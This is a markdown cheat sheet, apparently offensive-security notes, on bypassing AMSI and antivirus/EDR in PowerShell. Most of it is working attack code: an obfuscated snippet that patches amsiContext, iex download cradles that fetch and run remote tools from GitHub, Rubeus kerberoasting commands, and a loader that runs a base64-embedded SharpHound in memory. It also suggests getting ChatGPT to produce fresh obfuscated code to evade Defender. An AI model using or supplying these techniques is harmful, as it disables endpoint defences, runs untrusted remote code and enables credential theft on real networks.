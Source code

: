# AMSI Bypass

## AV and EDR Bypass

> If this is detected by Defender, you can request another obfuscated code from our slave (ChatGPT).

```powershell
$a = 'System.Management.Automation.' + 'Am' + 'siUt' + 'ils';
$b = [Ref].Assembly.GetType($a);
$c = $b.GetField('am' + 'siCo' + 'ntext', [Reflection.BindingFlags]'NonPublic,Static');
$d = $c.GetValue($null);
[Runtime.InteropServices.Marshal]::WriteInt32($d, 0x41 + 0x42 + 0x43 + 0x44);
```

After that, you can use another AMSI bypass to execute EXEs.

- https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

```powershell
# Using Hardoware breackpoint in this case
# https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#using-hardware-breakpoints
# Simply copy and paste
```

Now you can import the binaries and binaries detected by AV and run commands with PowerSharpPack tool

> If you have no access to the internet, you can change the URL to an internal Kali.

```powershell
# Import tools
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/refs/heads/master/PowerSharpPack.ps1')
PowerSharpPack -seatbelt -Command "AMSIProviders"
PowerSharpPack -Rubeus -Command "kerberoast /outfile:Roasted.txt"
# or import just one file per tool
iex(new-object net.webclient).downloadstring('https://github.com/S3cur3Th1sSh1t/PowerSharpPack/raw/refs/heads/master/PowerSharpBinaries/<file>.ps1')
# Here you can use
Invoke-Certify -Command ""
# ...
Invoke-Rubeus -Command ""
# and so on
```

Also you can create a exe to ps1 file and execute it, we create Invoke-Bloodhound.ps1

```powershell
.\GzipB64.exe C:\Users\MALDEV01\Downloads\SharpHound-v2.5.13\SharpHound.exe
# Save base64 code
```

```powershell
function Invoke-BloodHound
{
    [CmdletBinding()]
    Param (
        [String]
        $Command = " "

    )
    $a=New-Object IO.MemoryStream(,[Convert]::FromBAsE64String("<insert base64 code here>"))
    $decompressed = New-Object IO.Compression.GzipStream($a,[IO.Compression.CoMPressionMode]::DEComPress)
    $output = New-Object System.IO.MemoryStream
    $decompressed.CopyTo( $output )
    [byte[]] $byteOutArray = $output.ToArray()
    $RAS = [System.Reflection.Assembly]::Load($byteOutArray)

    # Setting a custom stdout to capture Console.WriteLine output
    # https://stackoverflow.com/questions/33111014/redirecting-output-from-an-external-dll-in-powershell
    $OldConsoleOut = [Console]::Out
    $StringWriter = New-Object IO.StringWriter
    [Console]::SetOut($StringWriter)

    [AnschnallGurt.Program]::Main($Command)

     # Restore the regular STDOUT object
    [Console]::SetOut($OldConsoleOut)
    $Results = $StringWriter.ToString()
    $Results
}
```


## Option 1 (Detected by AV)

- https://github.com/V-i-x-x/AMSI-BYPASS/


```powershell
IEX (New-Object System.Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/main/POC.ps1
’); MagicBypass -InitialStart 0x50000
```